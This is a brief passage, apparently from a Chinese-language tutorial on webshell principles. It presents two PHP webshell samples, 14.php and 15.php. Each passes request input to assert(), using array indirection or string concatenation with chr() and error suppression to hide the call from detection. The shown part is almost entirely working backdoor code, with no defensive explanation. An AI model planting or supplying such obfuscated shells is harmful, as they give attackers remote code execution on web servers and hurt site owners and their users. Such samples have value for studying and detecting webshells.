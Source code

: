 ![](webshell原理.assets/13.png)

#### 14.php

```php
<?php
	$POST['POST']='assert';
	$array[]=$POST;
	$array[0]['POST']($_POST['h']);
?>
```

#### 15.php

```php
<?php
	error_reporting(0);
	$g = array('','s');
	$gg = ass.$g[1].er.chr('116');
	@$gg($_REQUEST[h]);
?>
```
